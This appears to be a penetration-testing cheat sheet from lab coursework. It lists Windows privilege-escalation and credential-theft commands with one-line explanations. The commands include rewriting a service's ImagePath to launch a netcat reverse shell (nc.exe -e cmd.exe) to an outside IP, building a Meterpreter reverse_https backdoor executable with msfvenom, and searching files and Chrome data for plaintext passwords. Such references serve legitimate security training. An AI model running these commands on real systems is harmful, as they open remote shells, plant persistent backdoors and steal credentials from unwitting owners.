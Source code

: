 #### Checking for weak service ACLs in the Registry
```cmd
accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
```
- Utilizes `accesschk` to evaluate the Access Control Lists (ACLs) of services in the registry for weak permissions.

#### Changing ImagePath with PowerShell
```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```
- Modifies the `ImagePath` of a service to run a different executable, here setting it to initiate a reverse shell.

#### Check startup programs
```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
```
- Lists programs that run at startup, potentially revealing persistence mechanisms or opportunities for exploitation.

#### Generating a malicious binary
```cmd
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```
- Creates an executable with a reverse Meterpreter payload, aimed at establishing a covert, encrypted backdoor.

#### Enumerating a process ID with PowerShell
```powershell
get-process -Id 3324
```
- Retrieves details about a process with a specific Process ID (PID), aiding in process investigation and management.

#### Enumerate a running service by name with PowerShell
```powershell
get-service | ? {$_.DisplayName -like 'Druva*'}
```
- Lists services with names matching a specific pattern, useful for identifying target services for analysis or exploitation.

### Credential Theft
#### Search for files with the phrase "password"
```cmd
findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml
```
- Searches for files containing the word "password," potentially uncovering credentials stored in plaintext.

#### Searching for passwords in Chrome dictionary files
```powershell
gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
```
- Reads a Chrome dictionary file, looking for occurrences of "password," which might reveal user-specified sensitive words.
